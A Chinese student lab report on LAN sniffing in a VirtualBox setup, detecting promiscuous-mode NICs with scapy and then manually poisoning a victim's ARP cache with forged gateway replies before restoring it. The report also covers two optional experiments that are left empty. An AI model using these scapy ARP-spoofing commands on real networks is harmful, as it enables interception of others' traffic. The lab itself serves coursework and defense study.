

[toc]

# CHAP0x04 局域网主动监听实验
## 实验目的
- 掌握网络监听原理
- 掌握网络监听工具
- 掌握网络监听的检测和防范
## 实验环境
- VirtualBox 6.1 虚拟机

- 网关（Gateway）：`Debian Buster`
- 攻击者主机（Attacker）：`Kali Rolling 2109.2`
- 靶机（Victim）：`Kali Rolling 2109.2`
    

    |  身份 |名称|  IP地址 |  MAC地址 |
    |  ----  | ----  |----  |----  |
    |  网关（Gateway） | Gateway-Debian  | 172.16.111.1/24  |  08:00:27:53:e0:03 |
    |  攻击者主机（Attacker） |  Attacker-Kali | 172.16.111.148/24  | 08:00:27:24:e9:f9  |
    |  靶机（Victim） | Victim-Kali  |  172.16.111.112/24 |  08:00:27:f4:99:ae |
    |  靶机（Victim） | Victim-WinXP  |  172.16.111.126/24 |  08:00:27:66:71:85 |
## 实验要求
- [x] 实验一：检测局域网中的异常终端
- [x] 实验二：手工单步“毒化”目标主机的 `ARP` 缓存
- [x] 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
- [x] 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
## 实验准备
1. 按照网络拓扑图，配置虚拟机网卡，配置实验环境

2. 在攻击者主机`Attacker-Kali`上安装好 `scapy`（Kali自带可不安装）
    ```bash
    # 安装 python3
    sudo apt update && sudo apt install python3 python3-pip

    # 安装 scrapy
    pip3 install scapy[complete]
    ```
## 实验过程
### 实验一：检测局域网中的异常终端
1. 在受害者主机上查看网卡的「混杂模式」是否启用
    ```bash
    # 在受害者主机上检查
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0                
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
2. 在攻击者主机上开启`scapy`并执行代码
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo scapy                                                                            1 ⚙
    INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().

                         aSPY//YASa       
                 apyyyyCY//////////YCa       |
                sY//////YSpcs  scpCY//Pp     | Welcome to   Scapy
     ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.4
     AYAsAYYYYYYYY///Ps              cY//S   |
             pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
             SPPPP///a          pP///AC//Y   |
                  A//A            cyP////C   | Have fun!
                  p///Ac            sC///a   |
                  P////YCpc           A//A   | To craft a packet, you have to be a
           scccccp///pSP///p          p//Y   | packet, and learn how to swim in
          sY/////////y  caa           S//P   | the wires and in the waves.
           cayCyayP//Ya              pY/Ya   |        -- Jean-Claude Van Damme
            sY/PsY////YCc          aC//Yp    |
             sc  sccaCY//PCypaapyCP//YSs  
                      spCPY//////YPSps    
                           ccaacs         
                                           using IPython 7.20.0
    >>> pkt = promiscping("172.16.111.112")
    Begin emission:
    Finished sending 1 packets.

    Received 0 packets, got 0 answers, remaining 1 packets

    ```
3. 回到受害者主机上开启网卡的『混杂模式』并查看网卡状态
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo ip link set eth0 promisc on 
                                                                                
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0               
    2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
4. 回到攻击者主机上的 `scapy` 交互式终端继续执行命令
    ```bash
    >>> pkt = promiscping("172.16.111.112")
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    08:00:27:f4:99:ae PcsCompu 172.16.111.112
    ```
5. 在受害者主机上手动关闭该网卡的『混杂模式』
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo ip link set eth0 promisc off
                                                                                              
    ┌──(kali㉿kali)-[~]
    └─$ ip link show eth0                
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:f4:99:ae brd ff:ff:ff:ff:ff:ff
    ```
6. 比较总结

    *promiscping : Send ARP who-has requests to determine which hosts are in promiscuous mode*
    **对比：**
    受害者开启混杂模式后，攻击者多收到了一个`answer`数据包
    **混杂模式：**
    一般情况下，网卡往往只会接收目的地址是它的数据包而不会接收目的地址不是它的数据包。

    **混杂模式就是接收所有经过网卡的数据包，包括不是发给本机的包**。默认情况下，网卡只把发给本机的包（包括广播包）传递给上层程序，其他的包一律丢弃。

    混杂模式就是指网卡能接受所有通过它的数据流，无论是什么模式、什么地址的。当网卡处于这种“混杂”模式时，它对所有遇到的每一个数据帧都产生一个硬件中断，以提醒操作系统处理流经该物理媒体上的每一个报文包。

### 实验二：手工单步“毒化”目标主机的 `ARP` 缓存
1. 在攻击者主机上的`scapy`交互式终端完成
    ```bash
    >>> arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
    >>> arpbroadcast.show()
    ###[ Ethernet ]### 
    #dst= ff:ff:ff:ff:ff:ff
    #src= 08:00:27:24:e9:f9
    #type= ARP
    ###[ ARP ]### 
        # hwtype= 0x1
        # ptype= IPv4
        # hwlen= None
        # plen= None
        # op= who-has
        # hwsrc= 08:00:27:24:e9:f9
        # psrc= 172.16.111.148
        # hwdst= 00:00:00:00:00:00
        # pdst= 172.16.111.1

    >>> recved = srp(arpbroadcast, timeout=2)
    Begin emission:
    Finished sending 1 packets.
    *
    Received 1 packets, got 1 answers, remaining 0 packets
    >>> gw_mac = recved[0][0][1].hwsrc
    >>> gw_mac
    '08:00:27:53:e0:03'
    >>> arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")
    >>> sendp(arpspoofed)
    .
    Sent 1 packets.
    ```
    
2. 在受害者主机查看`ARP`缓存

3. 在攻击者主机执行命令，恢复`ARP`缓存
    ```bash
    >>> restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:53:e0:03", pdst="172.16.111.126", hwdst=
    ...: "08:00:27:66:71:85")
    >>> sendp(restorepkt1, count=100, inter=0.2)
    ....................................................................................................
    Sent 100 packets.
    ```
4. 在受害者主机查看`ARP`缓存

### 实验三（可选）：使用自动化工具完成 `ARP` 投毒劫持实验
### 实验四（可选）：基于 `scapy` 编写 `ARP` 投毒劫持工具
## 问题及解决
1. `scapy`执行命令`pkt = promiscping("172.16.111.112")`时报错
原因：报错为`permission denied`说明是权限不足
解决：启动`scapy`时升级权限`sudo scapy`
2. 执行`pkt = promiscping("xxx")`时，开不开混杂模式没有区别，两次输出一样结果
原因：`ip地址`写错了，不是`Attacker-Kali`的地址
解决：写对`ip地址`...
3. `arpspoofed=ARP(xxx)`伪造网关的`ARP`响应包时不成功，受害者`ARP`没有改变
原因：没有用以太网封装
解决：命令改为`rpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.126", hwdst="08:00:27:24:e9:f9")`
## 参考资料
[1] [18信安前辈的实验报告](https://github.com/CUCCS/2020-ns-public-kate123wong/tree/chap0x04/chap0x04)
[2] [在线教材-第四章 网络监听实验](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
[3] [混杂模式介绍_实践求真知-CSDN博客_混杂模式](https://blog.csdn.net/chengqiuming/article/details/89603272)
[4] [Scapy常用操作和命令(1)_Han的小站-CSDN博客](https://blog.csdn.net/qwertyupoiuytr/article/details/54670641)